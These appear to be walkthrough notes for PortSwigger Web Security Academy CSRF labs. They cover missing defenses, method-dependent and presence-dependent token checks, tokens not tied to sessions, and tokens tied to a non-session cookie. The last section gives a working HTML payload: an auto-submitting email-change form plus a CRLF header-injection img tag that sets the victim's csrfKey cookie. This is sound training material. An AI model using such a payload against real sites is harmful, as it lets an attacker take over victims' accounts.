 ### CSRF vulnerability with no defenses

After you log in, you will find a "Update email" button, that sends a request to change your email for a new one.
Once you find this request in Burp, you will see it has no CSRF protecion. So, right-click on the request > engagement tools > Generate CSRF PoC

You can now paste this PoC in the exploit server, and then deliver it to the victim.

---
### CSRF where token validation depends on request method

Find the POST change-email request. It's validating the csrf token value. But if you change the request method to a GET, and delete the CSRF, you can log in without validate that. 

So, right click, create CSRF PoC and deliver exploit to the victim. 

---
### CSRF where token validation depends on token being present

Find the POST change-email request. See it's not validating if "csrf" token is present. So delete it. Craft the payload as the previous exercise. Send it to victim.

---
### CSRF where token is not tied to user session

It's validating the csrf token to be valid, but as it's not tied to a user, you can use your own token to do actions in behalf of another user.

---
### CSRF where token is tied to non-session cookie

If you remove the `session` cookie, the session logs out. But if you modify the `csrfKey` it responds with an error. This may indicate this value is not properly tied to the user.

If you use the csrfKey and csrf parameter from the seconds account, in the first one, it works. 

When you do a search, you can see the queryString like this: `/?search=test`

So, let's craft our payload: 
```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0200a903be584f83ee73d5007700ca.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="iKBV1pK80FEtDqBnfhqGeJR1CXflv4RJ" />
      <input type="submit" value="Submit request" />
    </form>
    
<!-- This will go to my controled queryString and set the cookie values I decide -->
    <img src="https://0a0200a903be584f83ee73d5007700ca.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=9tKFFfcILZyyNA6wfmbacF0vqOawqkyO%3b%20SameSite=None" onerror="document.forms[0].submit()">

  </body>
</html>
```

---